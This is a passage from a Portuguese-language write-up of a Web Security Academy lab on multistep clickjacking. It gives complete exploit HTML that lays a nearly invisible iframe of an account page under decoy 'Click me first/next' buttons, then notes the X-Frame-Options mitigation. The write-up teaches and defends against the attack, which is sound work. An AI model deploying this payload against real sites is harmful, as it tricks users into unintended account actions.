 
No final não podemos esquecer de alterar a opacidade do `iframe` para 0.0001, para que ele fique invisível.

No final teremos o seguinte código:

```html

    <style>
        iframe {
            position:relative;
            width:500px;
            height: 700px;
            opacity: 0.0001;
            z-index: 2;
        }
    .firstClick, .secondClick {
            position:absolute;
            top:580px;
            left:40px;
            z-index: 1;
        }
    .secondClick {
            top:380px;
            left:215px;
        }
    </style>
    <div class="firstClick">Click me first</div>
    <div class="secondClick">Click me next</div>
    <iframe src="https://0a9800cc03846ba6c01e0a09001400cd.web-security-academy.net/my-account"></iframe>
```

Agora basta clicar em `"Deliver exploit to victim"` para que o laboratório seja concluído.

![concluido](mult_concluido.png)

---

## **• Mitigação.**

Para mitigar o ataque de clickjacking, devemos utilizar o `X-Frame-Options` no cabeçalho da resposta HTTP.

O `X-Frame-Options` é um cabeçalho HTTP que indica se uma página pode ser renderizada em um `<frame>`, `<iframe>`, `<embed>` ou `<object>`.
